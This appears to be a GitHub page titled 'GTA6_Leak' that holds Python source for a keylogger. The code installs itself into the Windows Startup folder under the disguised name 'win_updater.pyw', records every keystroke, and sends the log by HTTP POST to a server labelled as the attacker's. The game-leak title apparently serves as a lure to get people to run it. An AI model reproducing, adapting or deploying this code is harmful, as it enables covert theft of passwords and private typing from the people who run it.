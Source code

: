 # GTA6_Leak
Enjoy
import os
import json
import requests
import shutil
from pynput import keyboard
from pathlib import Path

# -------------- ADD TO STARTUP SECTION --------------
def add_to_startup():
    startup_dir = os.path.join(os.environ['APPDATA'], r"Microsoft\Windows\Start Menu\Programs\Startup")
    script_path = os.path.realpath(_file)  # ✅ Corrected __file
    target_path = os.path.join(startup_dir, "win_updater.pyw")  # disguise the name

    if not os.path.exists(target_path):
        shutil.copy(script_path, target_path)
        print("[+] Added to startup.")
    else:
        print("[=] Already in startup.")

add_to_startup()
# -------------- END OF STARTUP SECTION --------------


# -------------- KEYLOGGER SECTION --------------
key_list = []
x = False
log_file = 'logs.json'
START_LOGGING = False

# ✅ Update this to your attacker's IP
ATTACKER_SERVER = 'http://192.168.1.71:5000/upload'


def send_logs():
    try:
        with open(log_file, 'rb') as f:
            files = {'logfile': f}
            response = requests.post(ATTACKER_SERVER, files=files)
            print(f"[*] Sent log to attacker. Status code: {response.status_code}")
    except Exception as e:
        print(f"[!] Failed to send logs: {e}")


def update_json_file(key_list):
    with open(log_file, 'wb+') as key_log:
        key_log.write(json.dumps(key_list, indent=4).encode())
    send_logs()


def on_press(key):
    global x, START_LOGGING
    if key == keyboard.Key.f9:
        START_LOGGING = True
        print("[*] Logging activated.")

    if START_LOGGING:
        if not x:
            key_list.append({'Pressed': f'{key}'})
            x = True
        else:
            key_list.append({'Held': f'{key}'})
        update_json_file(key_list)


def on_release(key):
    global x
    if key == keyboard.Key.esc:
        print("[!] ESC pressed — exiting keylogger.")
        os._exit(0)

    if START_LOGGING:
        key_list.append({'Released': f'{key}'})
        update_json_file(key_list)

    x = False


# ✅ Start the keylogger listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
